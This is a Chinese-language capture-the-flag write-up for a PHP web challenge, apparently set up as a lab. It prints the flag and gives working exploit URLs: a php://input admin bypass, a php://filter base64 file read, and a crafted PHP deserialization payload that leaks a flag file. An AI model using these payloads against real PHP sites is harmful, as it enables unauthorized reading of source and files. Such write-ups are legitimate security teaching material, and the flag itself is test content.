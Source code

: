 ## 题目名称

PHP's Revenge

### flag

nUiStCtF--df3m2mlm54d/FDFKJlmf

### writeup

访问页面后发现提示不是admin权限，审查元素发现HTML注释存在源代码泄露，index.php包含了class.php。于是利用可利用php://input绕过admin检测

![image-20191210111624104](image-20191210111624104.png)

http://192.168.114.137/index.php?user=php://input

利用PHP伪协议读取class.php源码

![image-20191210111811348](image-20191210111811348.png)

http://192.168.114.137/index.php?user=php://input&file=php://filter/read=convert.base64-encode/resource=class.php

将回显字符串通过base64解密可得class.php源码：

Cjw/cGhwCmVycm9yX3JlcG9ydGluZyhFX0FMTCAmIH5FX05PVElDRSk7CiAKY2xhc3MgUmVhZHsvL2YxYTkucGhwCiAgICBwdWJsaWMgJGZpbGU7CiAgICBwdWJsaWMgZnVuY3Rpb24gX190b1N0cmluZygpewogICAgICAgIGlmKGlzc2V0KCR0aGlzLT5maWxlKSl7CiAgICAgICAgICAgIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJHRoaXMtPmZpbGUpOyAgICAKICAgICAgICB9CiAgICAgICAgcmV0dXJuICJfX3RvU3RyaW5nIHdhcyBjYWxsZWQhIjsKICAgIH0KfQo/ 



最后构造php反序列化读取f1a9.php的源码，获取flag。



http://192.168.114.137/index.php?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=f1a9.php";}